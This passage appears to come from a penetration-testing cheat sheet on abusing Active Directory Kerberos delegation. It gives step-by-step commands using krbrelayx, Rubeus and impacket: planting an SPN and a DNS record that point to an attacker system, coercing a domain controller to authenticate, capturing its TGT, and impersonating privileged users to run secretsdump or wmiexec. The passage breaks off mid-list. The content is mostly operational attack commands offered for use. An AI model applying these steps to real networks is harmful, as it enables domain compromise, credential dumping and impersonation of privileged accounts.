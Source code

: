 	- 2\. Add a SPN to the owned UD account that points to your own attacker system IP via DNS \([krbrelayx](https://github.com/dirkjanm/krbrelayx)\): `python3 addspn.py -u <domain>\\<name UD enabled computer account> -p <password or NTLM> -s HOST/<fake DNS record name that will later point to your system (e.g. pentest)>.<FQDN> <DC IP> --additional`
	- 3\. Verify if SPN was set correctly \([krbrelayx](https://github.com/dirkjanm/krbrelayx)\): `python3 addspn.py -u <domain>\\<name UD enabled computer account> -p <password or NTLM> -s HOST/<used DNS record name as specified above>.<FQDN> <IP DC> -q`
	- 4\. Add a new DNS record in the "Forward Lookup Zone" of the DC and point it to your own attacker system ip: \([krbrelayx](https://github.com/dirkjanm/krbrelayx)\): `python3 dnstool.py -u <domain>\<name UD enabled computer account> -p <password or NTLM> -r <DNS record name (e.g. pentest)>.<FQDN> -d <own IP> --action add <IP DC>`
	- 5\. Verify if DNS record was set successful \(can take 180 seconds to show up\): `nslookup <DNS record name>.<FQDN> <DC IP>`
	- 6\. Start the relaying/capturing tool \(krbrelayx\):
		- Password for authentication: `python krbrelayx.py --krbsalt <FQDN name all in capital letters><case sensitive unconstrained delecation account name> --krbpass <cleartext password>`
		- AES\-256 key for authentication: `python krbrelayx.py -aesKey <aes256 key of the unconstrained delegation account>`
	- 7\. Coerce a high value computer in the domain (e.g. DC) to make a connection to your attacker system via methods like SpoolSample or PetitPotam \(check "Coerce target computer to start authenticate to arbitrary sytem" section\)\. Specify the added DNS record name as the IP to send the courced connection to\. 
	- 8\. If the capture was successful, the TGT of the high value computer \(stored in a \.ccache file\) can be used for impersonation:
		- 1\. Set in the "/etc/hosts" file the FQDN and IP of the high value computer\. 
		- 2\. Import TGT: `export KRB5CCNAME=</path/to/DC ccache file>`
		- 3\. Impersonate using the ‘\-k’ option and run exploit tool \(e\.g\. secretsdump, wmiexec, smbclient\.py\)\.

#### _Constrained Delegation abuse:_
In contrast to Unconstrained Delecation, Constrained Delegation \(CD\) limits the delegation \(impersonation\) rights of an object\. Operationally, any account \(user or computer\) that have SPNs \(e\.g\. www/server\.domain\.local\) set in their "msDS\-AllowedToDelegateTo" attribute can impersonate any user in the domain in relation to those specified SPNs\. Additionally, the service name \(sname\) is not protected in the KRB\-CRED file \(only the server name is\) which means that any service name can be substituted in the "msDS\-AllowedToDelegateTo" attribute\. 
>It is mandatory to have control over the account with CD permissions \(e\.g\. via kerberoasting\)\. If an account is marked as ‘Account is sensitive and cannot be delegated’ or is part of the ‘Protected Users” group, it is not possible to impersonate that account\. 
- From beacon:
	- 1\. Based on the remote action you want to perform select the appropriate service tickets \(“/altservice:<service name>”\):
		- WMI interactions: HOST, RPCSS
		- LDAP including DCsync attack: LDAP
		- WinRM \(winrs\): HOST, HTTP
		- PowerShell Remoting: HOST, HTTP, WSMAN, RPCSS
		- MSSQL: MSSQLSvc
		- File access and PSexec: CIFS
	- 2\. Request a TGT that impersonates a privileged user in the context of the delegated server \(don’t use the /opsec option\) \(if using cobalt strike, use the ‘make\_token’ \+ ‘kerberos\_ticket\_use’ method as the impersonated user\) \([Rubeus](https://github.com/GhostPack/Rubeus)\): `.\Rubeus.exe s4u /impersonateuser:<username to impersonate> /msdsspn:”<delegated service name>/<FQDN of the delegated server>” /altservice:<alternative service name (e.g. cifs)> /user:<account name with CD> </aes256:KEY | /ticket:B64String> (/ptt) (/nowrap) (/dc:<FCDN DC>)`
	- 3\. It is now possible to peform actions in your current logon session under the context of the impersonated account against the server you have delegation rights for\. When specifying the target host always use the FQDN\.
- From attacker system: 
	- 1\. Request TGT \([impacket](https://github.com/SecureAuthCorp/impacket)\): `getST.py -spn <delegated service name>/<FQDN of the delegated server> (-dc-ip <FQDN DC>) -impersonate <username to impersonate> <FQDN>/<account name of owned CD account> (-hashes <NTLM of owned CD account>)`
	- 2\. Setup prerequisites and import generated kerberos ticket so you can impersonate a user: 
		- 1\. Modify your "/etc/hosts" file so the FQDN of the sever that you have delegation for points to its associated ip address